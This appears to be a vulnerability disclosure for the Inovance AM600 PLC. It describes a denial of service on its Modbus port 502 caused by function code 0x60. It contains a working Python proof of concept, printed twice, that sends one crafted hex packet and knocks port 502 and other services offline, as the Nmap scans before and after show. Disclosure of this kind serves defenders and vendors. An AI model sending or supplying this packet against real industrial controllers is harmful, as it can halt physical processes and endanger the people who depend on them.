 # Summary
There is a denial of service vulnerability in port 502 of Inovance AM600 PLC.

An attacker can send a crafted packet to let port 502 down.

Affected component is port 502 and unknown funccode `0x60`.

# Details
Detail of the PLC:
![image](https://github.com/user-attachments/assets/557ed0f7-6277-4fa8-860c-727aa09637cc)


Connectivity test of the device:
![image](https://github.com/user-attachments/assets/95348d75-e43c-4ef0-8a58-5c9d359fc388)


Nmap scans device ports:![image](https://github.com/user-attachments/assets/4a51c345-cab7-4676-b8ec-96bf64f49c2c)


You can see that port 502 is open.

Then we run the script:
```
python3 poc.py
```
```py
import socket
import time
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.88",502))

datas = ["00010000000b0960fff1800000010a0102"]

for data in datas:
    packet = bytes.fromhex(data)
    s.send(packet)
```


After a while, we scan the port with Nmap and find:
![image](https://github.com/user-attachments/assets/592c6ebb-7103-4a72-b49f-05c83c55c152)

Of the **7** ports that were originally open, only **3** are left now, and **mbap port 502** has also been closed.

And I uploaded a mp4 record here: https://github.com/N0zoM1z0/Vuln-Search/blob/main/AM600_Crash.mp4

# PoC
My host ip is `192.168.1.149` and the device's ip is `192.168.1.88`.

poc.py
```py
import socket
import time
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.88",502))

datas = ["00010000000b0960fff1800000010a0102"]

for data in datas:
    packet = bytes.fromhex(data)
    s.send(packet)
```

# Discoverer
ylqncepu@163.com

https://github.com/N0zoM1z0
